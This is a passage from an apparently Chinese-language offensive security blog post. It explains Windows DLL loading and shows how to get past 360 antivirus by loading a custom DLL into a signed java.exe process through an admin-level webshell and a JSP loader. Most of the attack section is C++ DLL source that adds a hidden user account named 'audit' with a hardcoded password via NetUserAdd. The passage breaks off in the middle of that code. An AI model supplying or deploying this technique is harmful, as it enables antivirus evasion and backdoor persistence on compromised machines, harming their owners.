 ## 0x04 Windows 动态链接库

DLL(Dynamic Link Library)文件为动态链接库文件，又称“应用程序拓展”，是软件文件类型。 在Windows中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即DLL文件，放置于系统中。在Windows平台下，我们使用的应用程序中的功能其实大多都很相似，窗口调用窗口的模块，分配内存调用内存管理的模块，文件操作调用IO模块，这些模块在Windows里的具体表现就是DLL文件。

在之前的文章中有简单总结过Dll的一些知识，这里就不做详细介绍了：

- [DllMain与rundll32详解](https://payloads.online/archivers/2019-10-02/1/)
- [DLL Hijacking & COM Hijacking ByPass UAC - 议题解读](https://payloads.online/archivers/2018-12-22/1/#0x02-dll%E6%98%AF%E4%BB%80%E4%B9%88)

在Windows操作系统中，每一个进程加载一个DLL都会默认执行DLLMain函数，利用这个加载的特性我们可以在Java.exe进程中做一些敏感操作，并且这个进程是白名单、签名的。

## 0x05 实战绕过数字杀毒添加用户

前提条件：

- 有一个管理员权限的Webshell
- 编写一个添加用户的DLL

首先上传之前写好的专门用于加载DLL的JSP文件，然后编写一个添加用户的DLL文件：

```cpp

// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <string.h>
#include <lmaccess.h>
#include <lmerr.h>
#include <Tchar.h>
#pragma comment(lib,"netapi32.lib")

DWORD CreateAdminUserInternal(void)
{
	NET_API_STATUS rc;
	BOOL b;
	DWORD dw;

	USER_INFO_1 ud;
	LOCALGROUP_MEMBERS_INFO_0 gd;
	SID_NAME_USE snu;

	DWORD cbSid = 256;	// 256 bytes should be enough for everybody :)
	BYTE Sid[256];

	DWORD cbDomain = 256 / sizeof(TCHAR);
	TCHAR Domain[256];

	//
	// Create user
	// http://msdn.microsoft.com/en-us/library/aa370649%28v=VS.85%29.aspx
	//

	memset(&ud, 0, sizeof(ud));

	ud.usri1_name = (LPWSTR)TEXT("audit");						// username
	ud.usri1_password = (LPWSTR)TEXT("Test123456789!");				// password
	ud.usri1_priv = USER_PRIV_USER;					// cannot set USER_PRIV_ADMIN on creation
	ud.usri1_flags = UF_SCRIPT | UF_NORMAL_ACCOUNT;	// must be set
	ud.usri1_script_path = NULL;

	rc = NetUserAdd(
		NULL,			// local server
		1,				// information level
```